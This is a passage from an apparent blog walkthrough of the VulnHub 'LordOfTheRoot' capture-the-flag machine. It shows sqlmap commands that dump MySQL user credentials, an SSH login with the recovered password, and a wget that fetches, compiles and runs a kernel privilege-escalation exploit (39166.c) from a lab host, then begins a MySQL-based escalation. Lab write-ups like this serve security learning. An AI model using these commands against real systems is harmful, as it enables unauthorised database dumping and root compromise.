 {% img  /images/blog/vulhub/lordroot/Selection_015.png   [title manually exploit [alt text]] %}


get colums of table user

`sqlmap -r post.txt -p username --risk=3 --level=5 --dbms=mysql -D mysql -T user --columns`


{% img  /images/blog/vulhub/lordroot/Selection_016.png   [title manually exploit [alt text]] %}

`sqlmap -r post.txt -p username --risk=3 --level=5 --dbms=mysql -D mysql -T user -C User,Password --dump`

{% img  /images/blog/vulhub/lordroot/Selection_017.png   [title manually exploit [alt text]] %}

try to login web using credential, however, I cannot find anywhere to upload webshell.

I try the credential to login ssh

and `smeagol  | MyPreciousR00t` works


###Local exploit 1:

`uname -a`

then get:

`Linux LordOfTheRoot 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux`

`searchsploit Linux Kernel | grep Ubuntu`

{% img  /images/blog/vulhub/lordroot/Selection_019.png   [title manually exploit [alt text]] %}

```
wget http://192.168.41.149/39166.c
gcc 39166.c -o local
./local
```

get the root


{% img  /images/blog/vulhub/lordroot/Selection_020.png   [title manually exploit [alt text]] %}


###Local exploit 2:

`ps aux |grep root`

{% img  /images/blog/vulhub/lordroot/Selection_021.png   [title manually exploit [alt text]] %}

mysql is running under the root, which is wrong!

login mysql 

`mysql -u root -p`, password is `darkshadow`, and the mysql version is 5.5.44.

{% img  /images/blog/vulhub/lordroot/Selection_022.png   [title manually exploit [alt text]] %}


`searchsploit mysql | grep local`

{% img  /images/blog/vulhub/lordroot/Selection_023.png   [title manually exploit [alt text]] %}
